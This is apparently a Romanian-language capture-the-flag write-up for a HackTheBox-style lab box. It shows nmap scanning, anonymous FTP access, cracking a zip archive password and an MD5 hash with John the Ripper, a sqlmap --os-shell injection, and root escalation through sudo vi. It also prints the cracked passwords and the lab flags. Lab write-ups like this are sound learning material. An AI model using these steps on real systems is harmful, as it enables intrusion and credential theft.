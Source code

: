 1. Besides SSH and HTTP, what other service is hosted on this box?
Trebuie sa facem o scanare simpla cu [[Tools/nmap]]:
![[vaccine_nmap_sS]] Mai sus putem vedea fisierul  complect cu toata informatia care ne  fost returnata de [[Tools/nmap]] 
```bash 
sudo namp -sSCV -T4 <IP> -oN vaccine_nmap_sS
```
![[Pasted image 20230912112623.png]]
Raspunslul este `ftp`
2. This service can be configured to allow login with any password for specific username. What is that username?
Acum trebuei sa gasim care este utilizatorul care ne va permite sa ne logam anonim acesta este `anonymous` De unde stiu am mai facut unele boxuri unde am avut nevoie de utilizatorul dat.
Acum trebuie sa ne logam pe serviciul nostru putem face asta cu [[ftp]]:
```bash
ftp ftp://anonymous:@<IP>
```
Intre `:` si `@` trebuie sa fie password-ul dar `anonymous` nu are parola.
![[Pasted image 20230912113258.png]]
3. What is the name of the file downloaded over this service?
Cand suntem logati pe serviciul nostru trebui sa vedem ce se afla pe el. Putem face asta cu un singur [[ls]]:
![[Pasted image 20230912113409.png]]
Vedem ca este un fisier care este `backup.zip` care si pe urma a fost scos de pe masina noastra cu un `get <file>`
Raspunsul `backup.zip`
4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?
Deci aici avem nevoie de [[john]] dar nu stiu de care script merge vorba. 
Aici era nu eram departe dar scriptul este [[zip2john]] din care si putem scoate hasul pentru fisierele `zip` in felul urmator:
```bash
sudo zip2john <file.zip> > hash.<file.zip>.txt
```
![[hash.txt]]
Mai sus este fisierul in care este hash-ul:
Acum avem hash-ul pe care trebui sal spargem:
```bash 
sudo john -w /usr/share/wordlist/rockyou.txt --format=pkzip hash.txt
```
![[Pasted image 20230912114754.png]]
Avem si parola aici `741852963`
5. What is the password for the admin user on the website?
Din arhiva care am pututo so scot am 2 fisiere `index.php, style.css` nu cred ca o sa fie ceva interesant in `style.css` dar in `index.php` tot ce e posibil:
![[Pasted image 20230912114917.png]]
`2cb42f8734ea607eefed3b70af13bbd3`
Asa si este vedem o secventa de cod care are si parola dar care este reprezintata in `hash` de tip [[md5]] dar [[john]] se va descurca si cu asta:
```bash 
sudo john -w /ush/share/wordlists/rockyou.txt --format=raw-md5 admin_hash.txt
```

# Astep raspunsul de la masina:::::

Putem sa folosim si alta metoda care este mai simpla dar nu destul de ificienta:
![[Pasted image 20230912120500.png]]
Hostul: https://crackstation.net/  ne permite spargerea hasurilor slabe.
Raspunsul este `qwerty789`
6. What option can be passed to sqlmap to try to get command execution via the sql injection?
Avem nevoie sa facem doar un `--help` la [[sqlmap]] pentru avedea care este optiunea:
``` bash
sudo sqlmap -u http://10.129.79.165/dashboard.php?search= --cookie="PHPSESSID=epa06d0f28j4380mbghqveqglg" --os-shell
```
![[Pasted image 20230912130001.png]]
Raspunsul este `--os-shell`
7. What program can the postgres user run as root using sudo?
Pentru a rula comanda `sudo -l` avem nevoie de creditiale dar unde ele sunt acolo unde am fost de vreo 3 ori dar nu am vazut nimic. Cine e maladet eu.
![[Pasted image 20230912140611.png]]
Acum rulam comanda [[sudo]]
```bash 
echo "P@s5w0rd!" | sudo -S -U postgres -l 
```
![[Pasted image 20230912141022.png]]
Raspunsul este `vi`
8. Submit user flag
Nu stiu unde este flagul pentru user deci am decis sal caut:
```bash 
find / -type f -name "user.txt" 2>/dev/null
```
![[Pasted image 20230925112125.png]]
Flagul este `ec9b13ca4d6229cd5cc1e09980965bf7`
![[Pasted image 20230925112406.png]]
10. Submit root flag
Pentru a prim privile mai mare putem rula [[vi]] cu fisierul care putem sal modificam 
la departe 
`Esc`
`!/bin/bash`
Deci am primit acesul de root.
![[Pasted image 20230925111343.png]]
Flagul este `dd6e058e814260bc70e9bbdef2715849`
